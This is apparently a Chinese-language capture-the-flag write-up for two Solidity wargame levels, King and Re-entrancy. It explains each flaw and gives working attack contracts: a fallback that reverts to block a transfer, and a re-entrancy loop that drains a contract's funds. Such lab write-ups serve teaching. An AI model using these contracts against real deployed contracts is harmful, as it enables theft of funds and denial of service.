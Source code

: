 > It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.
> To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. zk-SNARKs provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.

# King

看一下题目的要求：
When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.
意思是submit的时候环境会尝试取代你的king，如果题目没有成功的话你就赢了。
主要还是这里：

```javascript
king.transfer(msg.value);
```

考察了一下transfer：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210414105736611.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3JmcmRlcg==,size_16,color_FFFFFF,t_70)
如果transfer执行失败会进行回退，而call和send函数则不是，而是返回一个false，因此这就是为什么需要检查call和send的返回值的原因。
因此直接写个合约，在里面fallback抛出异常即可。

```javascript
pragma solidity ^0.6.0;

contract Feng{
    address target = 0x20b5Ff3460aE2a6C7D8fdE858CD1C6e1311445D4;
    function attack() payable public {
        target.call{value : 1 ether}("");
    }
    fallback() external payable {
        require(false);
    }
}
```

# Re-entrancy

重入攻击，具体的知识点不提了，遇到好几次了。
过关的条件一开始很迷，重入攻击构造出来了，还利用了下溢出，但是不知道该怎么过关。
The goal of this level is for you to steal all the funds from the contract.
其实就是合约的余额初始是 1ether，然后我们给他donate，它的余额还会增加，利用重入攻击把合约的钱都拿出来就行了：

```javascript
pragma solidity ^0.6.0;

contract Feng {
    address target = 0x6f28304754abDd1c6511ed74d7E548fff87eFE9a;
    function hack() payable public {
        target.call{value:1 ether}(abi.encodeWithSignature("donate(address)",this));
        target.call(abi.encodeWithSignature("withdraw(uint256)",1 ether));
        
    }
    fallback() payable external {
        target.call(abi.encodeWithSignature("withdraw(uint256)",1 ether));
    }
}
```
